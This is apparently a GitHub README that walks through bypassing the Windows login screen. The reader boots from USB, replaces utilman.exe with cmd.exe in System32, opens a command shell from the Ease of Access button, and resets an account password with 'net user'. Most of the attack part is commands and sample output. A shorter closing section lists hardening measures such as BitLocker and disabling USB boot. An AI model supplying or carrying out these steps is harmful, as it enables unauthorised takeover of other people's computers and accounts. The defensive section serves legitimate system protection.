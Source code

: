 <h1 align="center">Bypass Windows Login Screen</h1>


## Explaination
We are trying to access CMD so that we can change the Username, Password without Logging in. So, We used Bootable USB: As we can access temporary CMD from there and there is also a way in Windows 10 via Troubleshooting but that's not possible for all Window User.

So after opening CMD we perform some steps like searching for System Files present in our main computer by checking each drive then after searching we go to the System32 Folder and there we contain our utilman.exe and cmd.exe File. So we make a copy of utilman.exe and then changed utilman.exe as cmd.exe. As if we execute utilman.exe file, then cmd.exe will get executed. And utilman.exe is one and only ""Ease of Access"" which is present at the bottom right in Windows. So, after changing that and starting our Windows normally. We can click ""Ease of Access"" and cmd.exe will get executed and we can use out short script for which we were waiting for.

net user username password -> this will change out password for particular account without any problem.

## Requirement

A Computer, Bootable USB for Windows 10

## Steps

1. Restart and boot from Pendrive and after Install Screen appears then hit Shift + 10 and CMD will open up.

2. X: \Sources>
```bash
wmic logicaldisk get name
```

Output:
    Name
    C:
    D:
    E:
    X:


3. X: \Sources>
```bash
C:
#the directory which comtains your system files
```


4. C: \>
```bash
dir
```

Output:
Volume in drive C is System Reserved
Volume Serial Number is 56E1-426F

Directory of C:\
    File Not Found


5. E: \>
```bash
D:
```


6. D: \>
```bash
cd Windows
```


7. D: \Windows>
```bash
cd System32
```


8. D: \Windows\System32>
```bash
ren utilman.exe utilman2.exe
```


9. D: \Windows\System32>
```bash
copy cmd.exe utilman.exe
```


10. Click Ease of Access - cmd will open

11. net user username password


## Prevention: Protecting Your System

To prevent people from bypassing your Windows password using Command Prompt (CMD) or other methods, you can implement several security measures. Here are some effective strategies:

1. **Enable Local Security Policies:**

Use the Local Security Policy editor to enforce strong password policies.
* Press Windows + R, type `secpol.msc`, and press Enter.
* Navigate to Local Policies > Security Options and adjust settings like:
    * Accounts: Administrator account status (disable if not needed)
    * Accounts: Guest account status (disable)

2. **Disable Command Prompt Access:**

You can restrict access to CMD for standard users.
* Press Windows + R, type `gpedit.msc`, and press Enter.
* Navigate to User Configuration > Administrative Templates > System.
* Find the policy "Prevent access to the command prompt" and set it to Enabled.

3. **Use User Account Control (UAC):**

Ensure UAC is enabled to prevent unauthorized changes.
* Go to Control Panel > User Accounts > Change User Account Control settings and set it to the highest level.

4. **Limit Administrator Privileges:**

Ensure that users do not have administrative privileges unless necessary.
* Create standard user accounts for daily use and reserve admin accounts for administrative tasks.

5. **Use BitLocker Encryption:**

Encrypt your drives with BitLocker to protect data.
* Go to Control Panel > System and Security > BitLocker Drive Encryption and enable it for your drives.

6. **Keep Your System Updated:**

Regularly update Windows to patch vulnerabilities.
* Go to Settings > Update & Security > Windows Update and check for updates.

7. **Use Strong Passwords:**

Ensure that all user accounts have strong, complex passwords.
* Consider implementing a password manager to generate and store complex passwords.

8. **Monitor Account Access:**

Enable audit logging to monitor account access and changes.
* In the Local Security Policy, navigate to Local Policies > Audit Policy and enable auditing for logon events.

9. **Disable Boot from External Devices:**

Prevent users from booting from USB or external drives.
* Access BIOS/UEFI settings during boot and adjust boot order or disable USB booting.
